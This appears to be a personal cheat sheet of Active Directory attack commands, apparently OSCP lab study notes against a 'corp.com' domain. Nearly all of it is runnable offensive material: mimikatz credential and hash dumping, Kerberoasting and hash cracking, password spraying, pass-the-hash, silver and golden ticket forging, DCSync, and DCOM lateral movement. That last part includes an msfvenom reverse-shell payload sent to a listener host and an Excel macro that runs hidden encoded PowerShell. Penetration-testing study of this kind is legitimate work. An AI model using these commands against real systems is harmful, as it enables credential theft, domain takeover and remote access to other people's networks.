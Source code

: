 #### Active Directory

```
net user
net user /domain
net user jeff_admin /domain
net group /domain
```

#### LDAP Provider Path Format

```
LDAP://HostName[:PortNumber][/DistinguishedName]

```

```
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

```


#### Logged on Users

```
Import-Module .\PowerView.ps1

Get-NetLoggedon -ComputerName client251

Get-NetSession -ComputerName dc01

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/situational_awareness/network/powerview.ps1


import-module C:\Tools\active_directory\GetSPN.ps1
Get-SPN -type service -search "*.corp.com*"

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/situational_awareness/network/Get-SPN.ps1


#### Cached creds retrieval

```
mimikatz.exe

privilege::debug

sekurlsa::logonpasswords

sekurlsa::tickets

```

#### Windows system - mimikatz

```
C:\Tools\password_attacks\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam

```

#### Service account attack

Requesting service ticket and display tickets

```
Add-Type -AssemblyName System.IdentityModel 

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'

klist
```

```
kerberos::list /export

```

Cracking the ticket

```
sudo apt update && sudo apt install kerberoast

python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000- Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

https://github.com/nidem/kerberoast

#### Cracking password using JTR

Use the script from repo
https://github.com/nidem/kerberoast

[script under /usr/share/john/ may work as well] 


```
john --format=krb5tgs ./crack --wordlist=~/oscp/exer/wordlist.txt

python kirbi2john.py ~/oscp/exer/1-40a10000-offsec@MSSQLSvc~CorpSqlServer.corp.com~1433-CORP.COM.kirbi > crack

```
#### Using Invoke-kerberoast.ps1

```

Import-module Invoke-kerberoast.ps1

Get-DomainSPNTicket -SPN "HTTP/CorpWebServer.corp.com"

Get-Domain -Domain corp.com

Get-DomainUser -SPN

 Get-DomainUser -domain corp.com

Get-DomainUser


Invoke-kerberoast -OutputFormat john

Invoke-kerberoast -OutputFormat hashcat

hashcat -m 13100 -a 0 kerb-hash0.txt ./wordlist.txt --force

Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"

```

#### Low and Slow Password guessing

```
net accounts

.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
.\Spray-Passwords.ps1 -File pass.txt -Admin
```
### Lateral movement

#### Pass the Hash

```
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

#### Overpass the Hash

```
sekurlsa::logonpasswords

sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

klist - no ticket listed

net use \\dc01

klist - ticket listed after net use

 .\PsExec.exe \\dc01 cmd.exe

ipconfig

whoami
```
https://download.sysinternals.com/files/PSTools.zip


#### Pass the Ticket

  get the SID

`whoami /user` 

purge kerberos ticket

```
kerberos::purge

kerberos::list
```

The silver ticket command requires a username (/user), domain name (/domain), the domain SID (/sid), which is highlighted above, the fully qualified host name of the service (/target), the service type (/service:HTTP), and the password hash of the iis_service service account (/rc4).Finally, the generated silver ticket is injected directly into memory with the /ppt flag.

```
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

kerberos::list

```

lsadump::dcsync /user:corp\iis_service

kerberos::hash /password:puttheservicepasswordhere

#### DCOM - Need TCP COM port 135 and SMB port 445 

POC Macro

```
 Sub mymacro()
Shell ("notepad.exe")
End Sub
```
Execute Excel Macro Remotely

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.175.5"))
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\172.16.175.5\c$\myexcel.xls" 
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\172.16.175.5\c$\Windows\sysWOW64\config\systemprofile\Desktop" 
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\myexcel.xls") 
$com.Run("mymacro")

```

Generate shell code

```
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.175.10 LPORT=4444 -f hta-psh -o evil.hta
```
Split code

```
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."
n = 50
for i in range(0, len(str), n):
print "Str = Str + " + '"' + str[i:i+n] + '"'
```
Updated POC Macro

```
Sub MyMacro()
Dim Str As String
Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"

Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
Shell (Str)
End Sub
```

#### Golden ticket

Dumping password hashes
```
mimikatz # privilege::debug

mimikatz # lsadump::lsa /patch

```
Creating golden ticket

```
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt

mimikatz # misc::cmd - Launching new cmd prompt with golden ticket injected

psexec.exe \\dc01 cmd.exe
```

Synching of domain controllers

```
lsadump::dcsync /user:Administrator

```



https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/

mimikatz sekurlsa::logonpasswords key import error. use mimikatz 2.1.1.


